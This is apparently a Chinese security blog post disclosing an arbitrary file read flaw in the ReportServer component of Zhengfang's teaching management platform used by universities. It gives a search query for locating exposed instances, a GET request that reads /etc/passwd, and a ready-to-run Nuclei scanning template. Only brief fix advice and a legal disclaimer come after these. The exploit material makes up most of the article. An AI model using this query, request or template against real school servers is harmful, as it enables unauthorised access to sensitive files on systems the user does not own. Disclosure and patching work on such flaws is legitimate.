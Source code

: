 #  【1day】正方教学管理信息服务平台ReportServer存在任意文件读取   
原创 十二  十二主神   2024-03-20 21:09  
  
**重要通知**  
  
师傅们，动动小手指，设个星标，灰常感谢  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BJUTXWkQqmDcLGmeZMyZkLEUrw2iaeZRnDw5ib3EC4GVxAbSyuTkibxQuib9RJk9A648zaDfAU704r4cT6uBh7nmRA/640?wx_fmt=png&from=appmsg "")  
# 漏洞描述  
  
正方  
教学管理信息服务平台以培养、运行、保障、监控为主线，实现教务工作事务性管理和战略性管理的相互叠加，满足学校培养过程管理、教学质量检查、教学工作评价、教学业绩评价、教学改革发展等战略性需求。正方教学管理信息服务平台ReportServer存在任意文件读取漏洞，攻击者可通过该漏洞获取服务器上敏感文件内容。  
  
**资产测绘**  
```
body="正方软件股份有限公司" && title="教学管理信息服务平台"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BJUTXWkQqmDcLGmeZMyZkLEUrw2iaeZRnsstDr0mQeuz00am1J9iaZnP3cRibr9wtPm2WRKNS3UAodybRgwr3viaaQ/640?wx_fmt=png&from=appmsg "")  
# 漏洞复现  
  
部分界面如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BJUTXWkQqmDcLGmeZMyZkLEUrw2iaeZRnufVqtEP0JKh2hDB2Wc7Pia2sYInaqlOKBjGltxlMKCRib5sI724Nvmtw/640?wx_fmt=png&from=appmsg "")  
  
POC  
```
GET /WebReport/ReportServer?op=resource&resource=/etc/passwd&i18n=true
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BJUTXWkQqmDcLGmeZMyZkLEUrw2iaeZRnibBibJTMB2hhGmy2eb5moeKBGA8LIcniaGfTuIRLlIeRKFcYtria3Q1p0g/640?wx_fmt=png&from=appmsg "")  
  
**Nuclei脚本**  
```
id: zfjxgl-reportserver-anyfileread

info:
  name: zfjxgl-reportserver-anyfileread
  author: xxxx
  severity: high

http:
  - raw:
    - | 
      GET /WebReport/ReportServer?op=resource&resource=/etc/passwd&i18n=true HTTP/1.1
      Host: {{Hostname}}
      Content-Type: text/plain
      Connection: close

    matchers:
      - type: dsl
        dsl:
         - status_code==200 && contains_all(body,"root")

```  
  
  
**修复建议**  
  
1  
、请联系厂商进行修复或升级到安全版本。  
  
2、如非必要，禁止公网访问该系统。  
  
3、设置白名单访问。  
  
<table><tbody style="outline: 0px;"><tr style="outline: 0px;"><td width="557" valign="top" style="outline: 0px;word-break: break-all;hyphens: auto;"><p style="outline: 0px;font-family: system-ui, -apple-system, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;letter-spacing: 0.544px;background-color: rgb(255, 255, 255);color: rgb(34, 34, 34);"><strong style="outline: 0px;"><span style="outline: 0px;font-family: 宋体;color: red;">免责声明：</span></strong></p><p style="outline: 0px;font-family: system-ui, -apple-system, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;letter-spacing: 0.544px;background-color: rgb(255, 255, 255);"><span style="outline: 0px;font-family: 宋体;">  </span><span style="outline: 0px;font-size: 14px;">本文章仅做网络安全技术研究使用！严禁用于非法犯罪行为，请严格遵守国家法律法规；</span><span style="outline: 0px;color: rgb(0, 0, 0);font-size: 14px;letter-spacing: 0.544px;text-decoration-style: solid;text-decoration-color: rgb(255, 0, 0);">请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。<span style="outline: 0px;letter-spacing: 0.578px;">使用本文所提供的信息或工具即视为</span></span><span style="outline: 0px;font-size: 14px;letter-spacing: 0.544px;text-decoration-style: solid;text-decoration-color: rgb(255, 0, 0);color: rgb(0, 0, 0);">同意本免责声明</span><span style="outline: 0px;color: rgb(0, 0, 0);text-decoration-style: solid;text-decoration-color: rgb(255, 0, 0);font-size: 14px;letter-spacing: 0.578px;">，并承诺遵守相关法律法规和道德规范。</span><span style="outline: 0px;font-size: 14px;letter-spacing: 0.544px;">公众号发表的一切文章如有侵权烦请私信联系告知，我们会立即删除并对您表达最诚挚的歉意！感谢您的理解！</span></p><p style="outline: 0px;"><span style="outline: 0px;font-size: 14px;letter-spacing: 0.544px;"><br style="outline: 0px;"/></span></p></td></tr></tbody></table>  
  
  
  
**交流群**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BJUTXWkQqmDcLGmeZMyZkLEUrw2iaeZRnPWg70EicHqPnwNrbkMTesiaWtOnAboN3sNNibh5x0aJdMprribfjPiayJ2g/640?wx_fmt=png&from=appmsg "")  
  
  
  
